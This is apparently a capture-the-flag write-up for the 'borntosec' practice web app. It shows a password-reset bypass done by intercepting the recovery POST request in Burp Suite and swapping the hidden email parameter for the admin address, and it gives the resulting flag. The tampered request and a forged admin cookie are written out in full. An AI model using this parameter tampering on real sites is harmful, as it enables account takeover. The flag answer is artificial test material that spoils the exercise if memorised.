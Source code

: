 # Reset password bypass
- the password reset request can be manipulated by adding additional email parameters to divert the reset link
- the HTTP referer header may leak the password reset information if it is included in the request
- https://book.hacktricks.xyz/pentesting-web/reset-password

<b>keywords</b>: recover<br>
<b>attacked site</b>: http://borntosec.42/?page=recover

## Exploit
On the sign-in page, we find a link to the password recovery:
```
http://borntosec.42/?page=recover
```
After clicking the recover button, we intercept the POST request using <code>Burp Suite</code>:
``` http
POST /?page=recover HTTP/1.1
Host: 192.168.56.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://192.168.56.106
Connection: close
Referer: http://192.168.56.106/?page=recover
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1

mail=webmaster%40borntosec.com&Submit=Submit
```
We see that the default hidden parameters are sent when no other input is specified, and the email used to reset the password is passed directly in the request. We can modify it to reset the 'admin' password:
``` 
mail=admin%40borntosec.com&Submit=Submit
```
This returns the flag:
```
The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0
```

## Flag
1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0
